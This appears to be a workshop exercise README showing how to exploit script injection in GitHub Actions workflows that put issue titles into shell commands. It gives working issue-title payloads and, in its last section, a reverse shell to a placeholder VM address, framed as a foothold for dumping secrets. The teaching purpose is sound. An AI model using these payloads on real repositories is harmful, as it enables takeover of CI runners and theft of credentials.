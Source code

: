 # Exercise 1 - :bomb: Exploiting the script injection vulnerability in the run command
The [Check issue title workflow](.github/workflows/check-issue-title.yml) uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
Because this value is provided by the user when they create a new issue, this provides an opportunity for an attacker to exploit the workflow with by crafting an issue title that tricks the script into executing code where it's expecting data.

If we open an issue with the title...
```
octocat"; ls -l $GITHUB_WORKSPACE"
```
...the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE""
```

This payload closes the initial quote, then ends the command with a semicolon. This allows the following `ls -s` command to run as a separate command.  

### Create an issue with the exploit payload
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `octocat"; ls -l $GITHUB_WORKSPACE"` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

![alt script injection output in log](/images/exercise1.png "script injection output in log")

Now let's look at the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) which uses an [action](.github/actions/check-issue-title-action/action.yml) using the run command. The [action](.github/actions/check-issue-title-action/action.yml) uses the issue title in the run command as follows:
```
if [[ ${{ inputs.issue-title }} =~ ^octocat ]]; then
...
```
If we look at the runs of the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) that were triggered using the payload we used above, we will notice that we don't see the output of the `ls -s $GITHUB_WORKSPACE` command in the logs. So, this workflow is not vulnerable, right? Wrong! This workflow is still vulnerable to script injection. Let's try using a different payload to see some evidence of that.  

If we open an issue with the title...
```
$(wget github.com)
```
...the script looks like the following...
```
if [[ $(wget github.com) =~ ^octocat ]]; then
...
```
This payload will cause the script to run `wget github.com` as it evaluates the if condition.  

Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `$(wget github.com)` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title with action` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow log shows the output of the command `wget github.com`!  

### :imp: Getting a shell on the runner
Now let's try something a little more sinister...  
> **Note**: Because next part of this lesson requires a cloud VM with a public IP address, we will only demo this section in the workshop. We encourage you to go through this part of the exercise on your own after the workshop.  

1. Spin up a linux VM in the cloud that has a public IP address.
2. Open a command prompt and ssh into the VM
3. Run the command `nc -nvlp 1337` on the command prompt of the VM. This will cause the VM to listen on the port 1337.  
3. Next open a new issue in your repo with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`, replacing `<YOUR-VM-IP-ADDRESS>` with the public IP address of your cloud VM. This will cause the workflow to pipe the bash shell to your VM's IP address on port 1337.  
4. Now return to the command prompt window. As the worklfow runs, you will see your command prompt window drop into a shell on the runner. Now you have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  

